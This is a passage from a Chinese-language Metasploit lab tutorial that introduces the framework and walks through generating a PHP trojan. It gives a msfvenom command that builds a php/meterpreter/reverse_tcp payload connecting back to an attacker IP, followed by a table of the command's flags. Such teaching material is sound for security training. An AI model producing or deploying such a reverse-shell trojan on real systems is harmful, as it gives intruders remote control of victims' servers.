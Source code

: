 
> Metasploit 是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web 应用程序扫描，社会工程。团队合作，在 Metasploit 和综合报告提出了他们的发现。这款工具，附带数百个已知的漏洞，并保持频繁更新。被整个安全社区冠以"可以黑掉整个宇宙"外号的渗透框架。


## 四、过程实现

### 4.1 生成 PHP 木马

一般情况下，要根据目标靶机的情况来制定相应的木马程序。通常木马程序受目标靶机所运行的环境影响，在本实验中，木马的运行环境只要是能运行 PHP 代码的环境即可。上一节介绍了基本的工具背景之后，我们在实验楼的 Kali Linux 环境下，使用如下命令创建一个 PHP 木马文件，文件名为 `hello.php`：

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 -f raw > hello.php
```
这句话的意思是输入生成攻击者主机的 IP 地址为 `192.168.122.101` ，其中命令参数含义如下列表：

| 参数名称 | 所代表含义                                                   |
| -------- | ------------------------------------------------------------ |
| `-p`     | 指定需要使用的 payload (攻击荷载)。                          |
| `-l`     | 列出指定模块的所有可用资源。                                 |
| `-f`     | 指定输出格式 (使用 --help-formats 来获取 msf 支持的输出格式列表) |
| `-v`     | 指定一个自定义的变量，以确定输出格式。                       |

成功之后如图所示：

![图片描述](../imgs/1534155988211.png-wm.png)

之后可以使用 `ls` 命令，查看当前目录下的文件。此时 `hello.php` 木马文件已经生成，可以通过 `cat hello.php` 查看该文件的内容：

![图片描述](../imgs/1534155734467.png-wm.png)
